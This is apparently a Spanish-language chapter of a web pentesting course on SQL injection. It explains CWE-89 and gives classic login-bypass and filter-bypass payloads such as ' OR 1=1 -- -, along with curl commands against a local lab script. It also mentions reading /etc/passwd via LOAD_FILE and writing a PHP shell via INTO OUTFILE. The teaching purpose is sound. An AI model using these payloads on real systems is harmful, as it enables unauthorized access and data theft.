


# Capítulo 03: Inyecciones SQL y subversión de lógica

[Inicio](../../README.md) | [Pentesting Web](../README.md) | [Anterior: Bases de datos relacionales y SQL](../02-fundamentos-sql/README.md) | [Siguiente: UNION SQL injection y Burp Suite](../04-union-sql-injection-y-burp-suite/README.md)

> [!CAUTION]
> Practica las técnicas de inyección SQL exclusivamente en máquinas locales o sistemas bajo autorización expresa. Las inyecciones sobre bases de datos ajenas constituyen un delito contra la integridad y confidencialidad de los sistemas.

## Introducción

Una **inyección SQL** (clasificada como **CWE-89**) se produce cuando datos no confiables suministrados por el cliente se interpretan como parte de la gramática del motor de base de datos. Este fallo no surge por la presencia de un carácter determinado, sino por la pérdida de la frontera semántica entre las instrucciones del desarrollador y los datos del usuario.

Comprender la mecánica de la rotura sintáctica permite auditar flujos de autenticación, alterar filtros condicionales y anticipar el comportamiento del analizador léxico (*lexer*) y del analizador sintáctico (*parser*).



---

## 1. Causa raíz de CWE-89 y confusión de contexto

La vulnerabilidad surge cuando el motor de base de datos debe procesar una cadena que mezcla dos dominios distintos:

- **Contexto de instrucción**: Palabras reservadas (`SELECT`, `FROM`, `WHERE`, `AND`, `OR`) y delimitadores que fijan la lógica de la consulta.
- **Contexto de datos**: Literales suministrados por el usuario (nombres, identificadores, claves).

Al construir consultas mediante concatenación dinámica de cadenas, el backend traslada al motor SQL la responsabilidad de inferir dónde termina el valor y dónde comienza la regla de control.

---

## 2. La comilla simple y el analizador léxico

En una consulta de autenticación convencional:

```sql
SELECT * FROM users WHERE username = '$user' AND password = '$password';
```

### Comportamiento con entrada legítima

Si el usuario envía `ana` y `clave123`, el analizador léxico procesa:

1. `username`: Columna a comparar.
2. `=`: Operador relacional.
3. `'`: Inicio de literal de cadena.
4. `ana`: Contenido del literal.
5. `'`: Cierre de literal.
6. `AND`: Operador lógico hacia la siguiente condición.

### Comportamiento ante rotura de literal (`admin'`)

Si el parámetro contiene `admin'`, la consulta generada resulta en:

```sql
SELECT * FROM users WHERE username = 'admin'' AND password = '...';
```

```text
ESTRUCTURA ROTA:
SELECT * FROM users WHERE username = 'admin' ' AND password = '...';
                                     \_____/ |
                                     Cadena  Comilla desparejada (Syntax Error)
```

1. La primera comilla del payload cierra prematuramente la cadena.
2. La segunda comilla original del backend queda desparejada (*dangling quote*).
3. El analizador sintáctico no puede resolver la gramática y emite un fallo de sintaxis: `You have an error in your SQL syntax`.

> [!TIP]
> Enviar comillas simples (`'`), comillas dobles (`"`) o barras invertidas (`\`) permite comprobar si la aplicación responde con un código `500 Internal Server Error`, mensajes de error de base de datos o anomalías en la longitud de respuesta, lo que constituye la primera evidencia de concatenación insegura.

---

## 3. Subversión lógica y bypass de autenticación

Una vez provocada la anomalía sintáctica, el siguiente paso consiste en restituir la validez estructural de la sentencia alterando su evaluación booleana para forzar un resultado verdadero (**tautología**).

### Tautología con comillas equilibradas (`' OR '1'='1`)

Si en el campo de usuario se inyecta:

```text
admin' OR '1'='1
```

La consulta resultante se evalúa como:

```sql
SELECT * FROM users WHERE username = 'admin' OR '1'='1' AND password = '$password';
```

La expresión `'1'='1'` es axiomáticamente verdadera. Debido a la precedencia del operador `OR`, la evaluación global de la cláusula `WHERE` resulta en `TRUE`, permitiendo la devolución del registro de `admin` sin verificar la contraseña.

---

## 4. Delimitadores de comentarios según motor

En sentencias con cláusulas posteriores complejas (validaciones de hash, tokens, ordenaciones), los caracteres de comentario permiten anular el código residual del desarrollador para evitar errores de sintaxis o comprobaciones adicionales:



### Sintaxis de comentarios por motor relacional

| Motor de base de datos | Comentario en línea | Particularidad técnica |
|---|---|---|
| **MariaDB / MySQL** | `-- ` o `#` | La sintaxis `--` exige obligatoriamente un **espacio posterior**. Por convención se utiliza `-- -` para evitar que proxies o navegadores eliminen el espacio final. El símbolo `#` comenta directamente sin espacio posterior. |
| **PostgreSQL** | `-- ` | Requiere espacio posterior tras el doble guion; soporta bloques `/* ... */`. |
| **Microsoft SQL Server (MSSQL)** | `--` | No exige espacio posterior obligatorio. |
| **Oracle Database** | `--` | No exige espacio posterior obligatorio. |
| **SQLite** | `--` | Comenta hasta el final de la línea. |

### Tautología con truncamiento (`' OR 1=1 -- -`)

Al inyectar `' OR 1=1 -- -`:

```sql
SELECT * FROM users WHERE username = '' OR 1=1 -- -' AND password = '$password';
```

1. `username = ''` evalúa a falso.
2. `OR 1=1` evalúa a verdadero.
3. La secuencia `-- -` anula la validación de la contraseña y la comilla de cierre.
4. El motor ejecuta la consulta y entrega el primer registro coincidente (habitualmente el administrador).

### Suplantación directa de usuario (`admin' -- -`)

Cuando se conoce el identificador de la cuenta objetivo:

```sql
SELECT * FROM users WHERE username = 'admin' -- -' AND password = '$password';
```

El motor localiza el registro de `admin` y descarta toda comprobación de credenciales posterior.

---

## 5. Manipulación de catálogos y filtros booleanos

La subversión lógica no se limita a formularios de autenticación; afecta a cualquier parámetro interpolado en consultas condicionales.

### Escenario: Catálogo con filtro de visibilidad

Un comercio electrónico filtra productos por categoría exigiendo que el producto se encuentre publicado (`released = 1`):

```php
$category = $_GET['category'];
$query = "SELECT * FROM products WHERE category = '$category' AND released = 1";
```

### Vector de subversión

Al suministrar en el parámetro HTTP:

```text
http://tienda.test/products.php?category=Gifts' OR 1=1 -- -
```

La consulta ejecutada en la base de datos resulta en:

```sql
SELECT * FROM products WHERE category = 'Gifts' OR 1=1 -- -' AND released = 1
```

La condición `AND released = 1` queda anulada por el comentario y `OR 1=1` valida para todas las filas de la tabla `products`, exponiendo productos ocultos, artículos descatalogados o registros de prueba interna.

---

## 6. Matriz de impacto y privilegios del servicio

El impacto real de una inyección SQL responde a la correlación de tres factores:

```text
IMPACTO = (Tipo de Inyección) x (Estructura de la Consulta) x (Privilegios de la Conexión)
```

1. **Confidencialidad**: Extracción de credenciales, datos de usuarios y registros confidenciales.
2. **Integridad**: Modificación o inserción no autorizada de registros si la conexión posee privilegios de escritura (`INSERT`, `UPDATE`).
3. **Disponibilidad**: Bloqueo de recursos, agotamiento de conexiones o destrucción de esquemas mediante sentencias apiladas (`DROP`).

### Impacto de privilegios elevados en el servicio

- Con usuario restringido (`appuser` con permisos exclusivos de `SELECT` en una base concreta), el impacto queda circunscrito a la lectura de datos de esa aplicación.
- Con usuario administrativo (`root` o `DBA`):
  - El atacante puede enumerar esquemas ajenos en el mismo servidor.
  - En MariaDB/MySQL con privilegio `FILE`, puede leer archivos del sistema operativo mediante `LOAD_FILE('/etc/passwd')` o escribir ejecutables web mediante `INTO OUTFILE '/var/www/html/shell.php'`.

---

## 7. Práctica guiada en entorno local

En la máquina virtual configurada en el [Capítulo 02](../02-fundamentos-sql/README.md), valida los siguientes vectores contra el script vulnerable `searchusers.php`:

### Vector 1: Provocación de fallo léxico

```bash
curl -s "http://localhost/searchusers.php?id=1'"
```

Inspecciona si el servidor retorna un error explícito del motor o una página vacía.

### Vector 2: Extracción total mediante tautología

```bash
curl -s "http://localhost/searchusers.php?id=1'+OR+'1'='1"
```

Comprueba que el backend retorna registros adicionales no solicitados originalmente.

### Vector 3: Neutralización mediante comentarios

```bash
curl -s "http://localhost/searchusers.php?id=1'+OR+1=1+--+-"
```

Observa la anulación de las condiciones posteriores y la entrega uniforme de resultados.

---

## Cheatsheet

Referencia rápida del capítulo en formato PDF: [cheatsheet.pdf](./cheatsheet.pdf).

---

[Anterior: Bases de datos relacionales y SQL](../02-fundamentos-sql/README.md) | [Volver al índice](../README.md) | [Siguiente: UNION SQL injection y Burp Suite](../04-union-sql-injection-y-burp-suite/README.md)
